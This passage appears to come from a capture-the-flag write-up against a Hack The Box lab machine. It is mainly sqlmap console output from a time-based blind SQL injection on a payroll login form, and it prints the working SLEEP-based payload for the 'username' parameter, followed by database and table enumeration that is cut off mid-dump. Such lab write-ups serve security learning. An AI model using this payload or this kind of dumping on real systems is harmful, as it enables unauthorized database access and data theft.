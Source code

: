 ```jsx
[12:29:51] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[12:29:51] [INFO] testing 'Generic inline queries'
[12:29:51] [INFO] testing 'Generic UNION query (78) - 1 to 10 columns'
[12:29:52] [WARNING] GET parameter 'action' does not seem to be injectable
sqlmap identified the following injection point(s) with a total of 6679 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=Administrator' AND (SELECT 9653 FROM (SELECT(SLEEP(5)))GOUB) AND 'loLo'='loLo&password=
---
[12:29:52] [INFO] the back-end DBMS is MySQL
[12:29:52] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:30:37] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ 12:30:37 /2022-10-10/
```

Took a long time but it did something: 

```jsx
[12:41:08] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:41:08] [INFO] sqlmap will dump entries of all tables from all databases now
[12:41:08] [INFO] fetching database names
[12:41:08] [INFO] fetching number of databases
[12:41:08] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[12:43:44] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
2
[12:44:35] [INFO] retrieved: information_
[12:56:19] [ERROR] invalid character detected. retrying..
[12:56:19] [WARNING] increasing time delay to 6 seconds
schema
[13:01:46] [INFO] retrieved: payroll_db
[13:11:55] [INFO] fetching tables for databases: 'information_schema, payroll_db'
[13:11:55] [INFO] fetching number of tables for database 'payroll_db'
[13:11:55] [INFO] retrieved: 11
[13:13:02] [INFO] retrieved: positio
[13:20:44] [ERROR] invalid character detected. retrying..
[13:20:44] [WARNING] increasing time delay to 7 seconds
n
[13:22:40] [ERROR] invalid character detected. retrying..
[13:22:40] [WARNING] increasing time delay to 8 seconds

[13:22:55] [INFO] retrieved: employee
[13:31:30] [INFO] retrieved: 
[13:32:39] [ERROR] invalid character detected. retrying..
[13:32:39] [WARNING] increasing time delay to 9 seconds
de^C
```
